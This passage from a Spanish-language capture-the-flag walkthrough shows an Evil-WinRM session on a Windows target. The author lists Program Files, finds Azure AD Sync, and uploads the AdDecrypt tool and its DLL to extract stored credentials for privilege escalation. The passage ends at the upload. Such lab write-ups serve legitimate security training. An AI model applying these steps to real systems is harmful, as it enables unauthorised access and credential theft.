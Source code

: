 `Listamos` la `información` del directorio `Program Files`

```
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   9:36 PM                Common Files
d-----         1/2/2020   2:46 PM                internet explorer
d-----         1/2/2020   2:38 PM                Microsoft Analysis Services
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
d-----         1/2/2020   2:38 PM                Microsoft SQL Server
d-----         1/2/2020   2:25 PM                Microsoft Visual Studio 10.0
d-----         1/2/2020   2:32 PM                Microsoft.NET
d-----         1/3/2020   5:28 AM                PackageManagement
d-----         1/2/2020   9:37 PM                VMware
d-r---         1/2/2020   2:46 PM                Windows Defender
d-----         1/2/2020   2:46 PM                Windows Defender Advanced Threat Protection
d-----        9/15/2018  12:19 AM                Windows Mail
d-----         1/2/2020   2:46 PM                Windows Media Player
d-----        9/15/2018  12:19 AM                Windows Multimedia Platform
d-----        9/15/2018  12:28 AM                windows nt
d-----         1/2/2020   2:46 PM                Windows Photo Viewer
d-----        9/15/2018  12:19 AM                Windows Portable Devices
d-----        9/15/2018  12:19 AM                Windows Security
d-----         1/3/2020   5:28 AM                WindowsPowerShell
```

Si hacemos la búsqueda de `Microsoft Azure AD Sync exploit` en `google` nos encontramos con [https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/), donde se explica como `escalar privilegios`. Lo primero es `descargar` los `archivos` [https://github.com/VbScrub/AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt) y posteriormente `subirlos` a la `máquina víctima` con `evil-winrm`, para ello deben estar en el `mismo directorio` desde el cual nos `conectamos`

```
*Evil-WinRM* PS C:\Users\mhope\Documents> upload AdDecrypt.exe
                                        
Info: Uploading /home/justice-reaper/Downloads/AdDecrypt.exe to C:\Users\mhope\Documents\AdDecrypt.exe
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\mhope\Documents> upload mcrypt.dll
                                        
Info: Uploading /home/justice-reaper/Downloads/mcrypt.dll to C:\Users\mhope\Documents\mcrypt.dll
                                        
Info: Upload successful!
```
